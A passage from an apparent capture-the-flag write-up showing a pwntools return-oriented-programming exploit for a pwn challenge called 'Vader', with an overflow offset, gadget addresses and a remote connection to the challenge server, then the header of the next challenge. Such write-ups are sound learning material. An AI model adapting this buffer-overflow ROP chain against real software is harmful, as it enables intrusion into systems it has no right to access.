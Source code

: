 offset =        b'A'*40         # OVERFLOWING 32 + 8 BYTES FOR $RBP

rdi =           p64(0x0040165b) # RDI, RSI, RDX, RCX, & R8 ARE ARGS REGISTERS
rsi_r15 =       p64(0x00401659)
rdx =           p64(0x004011ce)
rcx_r8 =        p64(0x004011d8)

dark =          p64(0x00402ec9) # ADDRESSES FOR STRINGS IN THE BINARY
side =          p64(0x00402ece)
r15_garbage =   p64(0xCAFEBEEF) # GARBAGE
of =            p64(0x00402ed3)
the =           p64(0x00402ed6)
force =         p64(0x00402eda)

vader =         p64(0x0040146b)

payload = offset
payload += rdi + dark                   # POP RDI, STORING "DARK"
payload += rsi_r15 + side + r15_garbage # POP RSI & R15, STORE "S1D3" + GARBAGE
payload += rdx + of                     # POP RDX, STORING "OF"
payload += rcx_r8 + the + force         # POP RCX & R8, STORING "TH3" + "FORC3"
payload += vader                        # ADDRESS OF VADER

p = remote("0.cloud.chals.io", 20712)
p.sendline(payload)
log.success(p.recvallS())
p.close()
{% endccb %}

I don't usually do this, but here's a clip of me initially solving the challenge by running the above script:

<br>

{% youtube rvMORfSC2CU %}

<br>

This is considered a "simple" challenge for those experienced with the field of return-oriented programming within pwn/binary challenges. However, I had none prior to this competition, so <kbd>Vader</kbd> was one of the most time-consuming and annoying challenges to work with. Yet, it was probably the most satisfying solve throughout the entire competition, and it was my first time utilizing gadgets and building a ROP chain. I hope you enjoyed!

---

{% challenge %}
title: Warmup to the Dark Side
level: h2
solvers: enscribe
authors: v10l3nt
description: |
        Once you start down the dark path, forever will it dominate your destiny.  (And yes, the binary isn't included)  
        `nc 0.cloud.chals.io 30096`
points: 100
genre: pwn
{% endchallenge %}

